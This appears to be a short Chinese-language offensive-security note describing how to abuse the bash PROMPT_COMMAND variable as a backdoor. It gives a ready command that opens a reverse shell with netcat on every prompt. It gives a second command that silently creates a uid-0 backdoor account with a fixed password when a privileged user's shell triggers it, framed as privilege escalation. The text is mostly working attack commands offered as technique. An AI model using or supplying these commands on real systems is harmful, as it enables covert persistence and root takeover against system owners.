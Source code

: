 ```yaml
---
title: PROMPT_COMMAND
id: zhfly3507
---
```


## PROMPT_COMMAND

bash提供了一个环境变量PROMPT_COMMAND,这个变量会在你执行命令前执行一遍。这样就可以利用他执行的命令来留后门。

```
export PROMPT_COMMAND="nc -e /bin/bash 127.0.0.1 6666 &" 
```

![image](../img/84ed0636ef0aaf99e762595c748ec6ad.png)

**提权**

如果当前用户是低权账号，管理员又经常使用su等、但是自己不知道密码。就可以来使用这种方法。利用sudo的权限提升来新建一个uid为0的用户

```
export PROMPT_COMMAND="/usr/sbin/useradd -o -u 0 test2 &>/dev/null && echo test2:123456 | /usr/sbin/chpasswd &>/dev/null && unset PROMPT_COMMAND" 
```

![image](../img/44bc29f4d6c28d0fbdf02677892c30ed.png)

![image](../img/68f39b93e26aeadf3d09d3c95ab49f7d.png)